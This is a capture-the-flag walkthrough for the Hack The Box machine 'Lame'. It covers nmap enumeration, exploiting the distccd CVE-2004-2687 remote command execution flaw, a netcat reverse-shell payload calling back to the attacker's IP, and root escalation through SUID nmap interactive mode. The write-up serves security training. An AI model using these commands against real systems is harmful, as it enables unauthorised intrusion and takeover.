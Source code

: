 # HTB-Writeups




   ![image of bashed](/assets/newlamepic.png)


### Enumeration (Information Gathering):
Starting off with an nmap scan to check which ports are open:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb (netbios)

After doing a full port scan using:
`nmap -sC -sV -oA nmap/lamefull 10.10.10.3 --max-retries 0`, we get:


![nmap scan](/assets/Lamenmap.png)



Ports open after **full port** scan:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb

As we can see that port **21/ftp** is open, we can try and connect to it via ftp:
`ftp 10.10.10.3`
After enumerating the ftp server, we could not find anything interesting.
Check out the ftp, ssh, smb versions to see if they are vulnerable, and after googling we find out that they aren't vulnerable.
But after checking out port 3432 distccd, we found that it is vulnerable to a Remote Command Execution. There seems to be an nmap script avaiable for this vulnerability.
There is an nmap script avaiable for this and you can find it here:
[distcc-cve2004-2687 - RCE](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html)

### Exploitation

Using the nmap script:
`sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd=cmd"`

Putting out reverse shell payload in place of the cmd argument:
cmd = `/bin/nc -e /bin/sh 10.10.14.9 4445`

Setting up a Netcat listener on our attack machine to catch the shell:
`sudo nc -nlvp 4445`

    After executing nmap script, we have successfully got a Reverse shell:

![lame rev shell](/assets/lamerevshell.png)

And we have the **USER SHELL!!!!**

Hence, we can grab the user flag from the directory: /home/makis/

### Privilege Escalation
Running our basic commands for privilege escalation such as checking for sudo rights, checking the kernel, OS version, checking if we belong to any admin groups, etc.
As we find nothing from basic enumeration, we setup a Python Web Server on our machine and get the LinEnum.sh script on our host machine.
Using `wget http://10.10.14.2/LinEnum.sh` to download the script and running `chmod +x LinEnum.sh` to make it executable.

After running the script we see that we have the suid bit enabled on the nmap binary.
SUID bit enabled means that if a file's SUID bit is enabled we can run that file as root.
![nmap suid bit enabled](/assets/privesc.png)

Using nmap in interactive mode:
`sudo nmap --interactive` (important to use sudo as we want to execute the binary as root)
Now running !sh to run bash from nmap.

![root user](/assets/root.png)

And we have got **ROOT!!!!**

## Other ways to exploit this machine:
1. Samba version was vulnerable to an RCE.
2. There was a Privilege Escalation exploit for distccd to get root directly.

